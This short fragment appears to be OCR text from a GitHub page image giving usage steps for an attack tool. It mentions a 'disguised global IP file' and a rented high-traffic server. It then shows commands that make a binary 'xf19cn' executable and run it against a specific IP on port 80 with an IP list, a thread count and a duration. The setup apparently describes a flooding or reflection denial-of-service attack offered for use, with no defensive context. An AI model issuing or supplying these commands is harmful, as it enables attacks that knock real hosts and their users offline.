 The worldip file of this command is a disguised global IP file.
Netherlands for rent Unlimited traffic server.
chmod 777 xf19cn 
./xf19cn 20.2.219.130 80 worldip.txt 2 -1 60
